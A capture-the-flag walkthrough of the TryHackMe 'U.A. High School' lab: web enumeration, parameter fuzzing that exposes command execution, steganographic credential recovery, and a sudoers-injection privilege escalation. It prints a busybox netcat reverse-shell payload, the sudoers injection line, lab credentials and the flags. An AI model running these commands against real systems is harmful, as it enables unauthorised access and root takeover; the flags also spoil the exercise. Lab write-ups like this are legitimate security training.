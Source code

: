 ## **Room:** [U.A. High School](https://tryhackme.com/room/yueiua)
---
## **Task 1**
---
> **Prompt**
>
> >Join us in the mission to protect the digital world of superheroes! U.A., the most renowned Superhero Academy, is looking for a superhero to test the security of our new site.

> >Our site is a reflection of our school values, designed by our engineers with incredible Quirks. We have gone to great lengths to create a secure platform that reflects the exceptional education of the U.A.

> >Please allow the machine 3 - 5 minutes to fully boot.

Host: 10.201.88.240
---
## Walkthrough
Run an nmap scan:
```bash
nmap -sS -sV 10.201.88.240
```
Open ports: 22 and 80.

I used gobuster to look for hidden directories:
```bash
gobuster dir -u http://10.201.88.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Result: /assets and /server-status.

Because I couldn't find anything interesting at the root, I focused on /assets. I ran:
```bash
gobuster dir -u http://10.201.88.240/assets -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```
Result:
```text
/index.php            (Status: 200) [Size: 0]
/.htaccess            (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 0]
/styles.css           (Status: 200) [Size: 2943]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htm                 (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/wp-forum.phps        (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
```
The site uses index.php, but it didn't reveal anything useful in the browser. I fuzzed index.php for possible parameters:
```bash
ffuf -u 'http://10.201.88.240/assets/index.php?FUZZ=id'  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -fs 0
```
Result: cmd                     [Status: 200, Size: 72, Words: 1, Lines: 1]
This indicates we can run commands via http://10.201.88.240/assets/index.php?cmd=<command>.
Example:
```text
http://10.201.88.240/assets/index.php?cmd=whoami --> d3d3LWRhdGEK
```
I base64-decoded the response and got www-data.
And while exploring ls, there were image folder:
```bash
curl -s 'http://10.201.88.240/assets/index.php' -G --data-urlencode 'cmd=ls -al images' | base64 -d
total 336
drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
```
I downloaded oneforall.jpg:
```bash
wget http://10.201.88.240/assets/images/oneforall.jpg
```
When I tried to open it, it didn’t work. exiftool and strings revealed something odd — the file metadata reported PNG, but it wasn’t a valid PNG.
```text
exiftool oneforall.jpg 
ExifTool Version Number         : 11.88
File Name                       : oneforall.jpg
Directory                       : .
File Size                       : 96 kB
File Modification Date/Time     : 2023:07:09 17:42:05+01:00
File Access Date/Time           : 2025:10:05 04:21:39+01:00
File Inode Change Date/Time     : 2025:10:05 04:20:55+01:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Warning                         : PNG image did not start with IHDR
```
I examined the bytes:
```text
xxd -l 19 oneforall.jpg 
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 00        
```
The file signature (PNG header) did not match the internal structure, so I removed the first 8 bytes and reconstructed a JPEG-like header:
```bash
printf '\xFF\xD8' | cat - recovered.jpg > fixed.jpg
```
I was then able to get an image, but I couldn't find the hidden data at first. Following an online write-up "https://grish0111.medium.com/tryhackme-u-a-high-school-writeup-85237130a2c8". I used 
```bash
steghide extract -sf fixed.jpg
```
It prompted for a passphrase and I got stuck there for a while.
---
I used an online collection of reverse shell commands (https://www.revshells.com/) and used one via the cmd parameter:
Url: "10.201.88.240/assets/index.php?cmd=busybox nc 10.201.60.88 4000 -e sh"
and 
```bash
nc -lvnp 4000
Listening on 0.0.0.0 4000
Connection received on 10.201.88.240 58358
```
While navigating, I found passphrase.txt. Its contents were base64: QWxsbWlnaHRGb3JFdmVyISEhCg== --> AllmightForEver!!!
I also found a clue from the image:
```text
Corrupt JPEG data: 12 extraneous bytes before marker 0xdb
wrote extracted data to "creds.txt".
```
In creds.txt: "Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A"
I tried SSH-ing with deku:One?For?All_!!one1/A and successfully logged in as deku.
From the deku's account, I have found the first flag: THM{W3lC0m3_D3kU_1A_0n3f0rAll??}
---
While exploring, I found /opt/NewCompnent/Feedback.sh:
```text
deku@ip-10-201-88-240:/$ cd opt/
deku@ip-10-201-88-240:/opt$ ls
NewComponent
deku@ip-10-201-88-240:/opt$ cd NewComponent/
deku@ip-10-201-88-240:/opt/NewComponent$ ls
feedback.sh
deku@ip-10-201-88-240:/opt/NewComponent$ cat feedback.sh 
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

```
This script basically do: 
```text
Tries to block dangerous characters, then uses eval to echo the input and appends it to /var/log/feedback.txt.
```
So, I used the following input: deku 	ALL=NOPASSWD:ALL >> /etc/sudoers
This command is basically allows user deku to run any command with sudo without a password (NOPASSWD: ALL)
Using that, I was eventually able to gain root access. I navigated the filesystem as root and found the final flag: THM{Y0U_4r3_7h3_NUm83r_1_H3r0}